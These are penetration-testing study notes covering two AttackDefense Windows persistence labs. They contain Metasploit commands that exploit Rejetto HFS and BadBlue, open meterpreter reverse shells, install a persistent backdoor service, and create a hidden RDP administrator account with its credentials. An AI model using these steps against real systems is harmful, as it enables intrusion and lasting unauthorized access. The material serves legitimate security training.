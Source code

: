 # 🔬Windows Persistence

## Lab 1 - Service

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.244`
> - **Persistence** via services

```bash
nmap -sV 10.2.20.244
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
setg RHOSTS 10.2.20.244
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set LPORT 4444 # use a different port than the other session
sessions
set SESSION 3
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](.gitbook/assets/image-20230429141841138.png)

- Kill all MSF sessions

```bash
exit
# Kill all sessions
sessions -K
sessions
	# No active sessions.
# Close msfconsole
exit 
```

- Regain access to the system

```bash
msfconsole -q

use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

![](.gitbook/assets/image-20230429142715572.png)

------

## Lab 2 - RDP

> 🔬 [Maintaining Access: RDP](https://attackdefense.com/challengedetails?cid=2142)
>
> - Target IP: `10.2.20.249`
> - **Persistence** via RDP and a backdoor user account

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.249
setg RHOST 10.2.20.249
workspace -a RDP_persistence
db_nmap -sV 10.2.20.249
```

```bash
80/tcp  open  http          BadBlue httpd 2.7
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows


getuid
	Server username: ATTACKDEFENSE\Administrator

# Get a stable Meterpreter session
pgrep explorer
migrate 3132
```

### [Enable RDP & New User](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

- Use the **`getgui`** Meterpreter command to
  - Enable the `RDP` service
  - Create a new user & hide it from Win Login screen
  - Add it to `Remote Desktop Users` & `Administrators` groups

```bash
run getgui -e -u newuser -p attack_1234321
```

> 📌 New user's credentials are `newuser`:`attack_1234321`

![Meterpreter - getgui](.gitbook/assets/image-20230429151339261.png)

- In a new Terminal TAB

```bash
xfreerdp /u:newuser /p:attack_1234321 /v:10.2.20.249
```

![xfreerdp](.gitbook/assets/image-20230429151739158.png)

- The cleanup script provided to remove the added account can be run when the attacker is done with the current system

```bash
# In the Meterpreter Session
run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc
```

![Cleanup script](.gitbook/assets/image-20230429152215357.png)

------

